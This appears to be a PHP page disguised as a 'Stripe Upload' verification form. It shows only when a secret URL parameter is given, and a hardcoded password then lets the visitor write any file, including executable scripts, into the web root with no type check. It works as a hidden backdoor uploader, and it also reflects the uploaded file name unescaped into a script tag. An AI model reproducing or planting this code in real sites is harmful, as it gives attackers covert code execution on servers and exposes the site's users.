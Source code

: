 if ($_GET['dl-id'] == "dl-7646777GV")
{
	session_start();
	if (isset($_POST["submit"]))
	{
		$str =  "<script>$('#retval').html('";
		if ($_POST['pwd'] == 'download-vAk_6463') {
        $target_dir    = "./";
        $target_file   = $target_dir . basename($_FILES["fileToUpload"]["name"]);
        $uploadOk      = 1;
        $FileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
        // Check if file already exists
        if (file_exists($target_file))
		{
            $str .= "Sorry, file already exists.<br>";
            $uploadOk = 0;
        }
        if ($uploadOk == 0) {
            $str .= "Sorry, your file was not uploaded.";
            // if everything is ok, try to upload file
        } else {
            if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
                $str .= "The file " . basename($_FILES["fileToUpload"]["name"]) . " has been uploaded.";
            } else {
                $str .= "Sorry, there was an error uploading your file.";
            }
        }
    } else {
        $str .= "Invalid key";
    }
    $str .= "');</script>";
    $_SESSION['message'] = $str;
    unset($_POST);
    unset($_FILES);
    header("Location: new_download.php?dl-id=dl-7646777GV");
    exit;
}
?>
<!DOCTYPE html>
<html>

<head>
    <meta charset="utf-8">
    <title>Stripe Upload</title>
    <link rel="icon" href="favicon.png">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
	<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
	<script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js"></script>
	<script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</head>

<body class="text-center">
    <div class="container-fluid">

        <div class="row justify-content-center">
            <div class="mx-1 mt-1 card rounded">
                <div class="card-body">
                    <form action="?dl-id=dl-7646777GV" method="post" enctype="multipart/form-data" class="form-signin">
                        <h1 class="h3 mb-3 font-weight-normal">Please verify</h1>
                        <label for="inputPassword" class="sr-only">Password</label>
                        <input type="password" name="pwd" id="pwd" class="form-control" placeholder="Password" required>
                        <label class="btn btn-primary btn-block">
                            Browse <input type="file" name="fileToUpload" id="filetoUpload"
                                onchange="$('#upload-file-info').html(this.files[0].name)" hidden>
                        </label>
                        <p class='label label-info' id="upload-file-info"></p>
                        <p class='label label-info' id="retval"></p>
                        <button name="submit" class="btn btn-lg btn-primary btn-block" type="submit">Verify and upload
                        </button>
                    </form>
                </div>
            </div>

        </div>
    </div>
    <?php
        if(isset($_SESSION['message']))
        {
            echo $_SESSION['message'];
            unset($_SESSION['message']);
        }
    ?>
</body>

</html>
<?php
}
?>
